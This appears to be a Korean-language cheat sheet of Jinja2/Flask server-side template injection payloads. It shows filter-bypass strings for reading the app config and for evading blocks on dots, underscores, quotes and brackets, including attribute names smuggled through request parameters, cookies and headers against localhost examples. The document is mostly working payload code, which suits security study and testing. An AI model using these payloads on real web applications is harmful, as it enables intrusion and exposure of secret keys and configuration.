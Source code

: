 ```
뭘 해도 안될경우 'a'+'b'와 같이 하나씩 다 따로 붙여서 시도 해볼 수 있다.
```

## config Filtering

```python 
{{ self.__dict__ }}
{{ self['__dict__']}}
{{ self|attr("__dict__") }}
{{ self|attr("con"+"fig")}}
{{ self.__getitem__('con'+'fig') }}
{{ request.__dict__ }}
{{ request['__dict__']}}
{{ request.__getitem__('con'+'fig') }}
```

## .(dot) Filtering

> attr 이라는 속성을 사용하면 가능하다. ex) ''.__class__ → ''|attr('__class')

## ‘ _ [] Filtering

```python
request.__class__
request["__class__"]
request['\x5f\x5fclass\x5f\x5f']
request|attr("__class__")
request|attr(["_"*2, "class", "_"*2]|join) # Join trick

request|attr(request.headers.c) #Send a header like 
request|attr(request.args.c) #Send a param like "?c=__class__
request|attr(request.query_string[2:16].decode() #Send a param like "?c=__class__
request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join) # Join list to string
http://localhost:5000/?c={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_ #Formatting the string from get params

http://localhost:5000/?c={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_

```

### 모든 키워드가 막혔을 시 rqeuest 객가 Filtering 안되었다면?

```python
<http://127.0.0.1:8080/?c=>{{ request|attr(request.args.get('class')|attr(request.args.get('mro'))|attr(request.args.get('getitem'))(1) }}&class=__class__&mro=__mro__&getitem=__getitem__
<http://127.0.0.1:8080?c=>{{ request|attr(request.form.get('class'))|attr(request.form.get('mro'))|attr(request.form.get('getitem'))(1) }}
<http://127.0.0.1:8080?c=>{{ request|attr(request.cookies.get('class'))|attr(request.cookies.get('mro'))|attr(request.cookies.get('getitem'))(1) }}
<http://127.0.0.1:8080?c=>{{ request|attr(request.headers.get('class'))|attr(request.headers.get('mro'))|attr(request.headers.get('getitem'))(1) }}
```
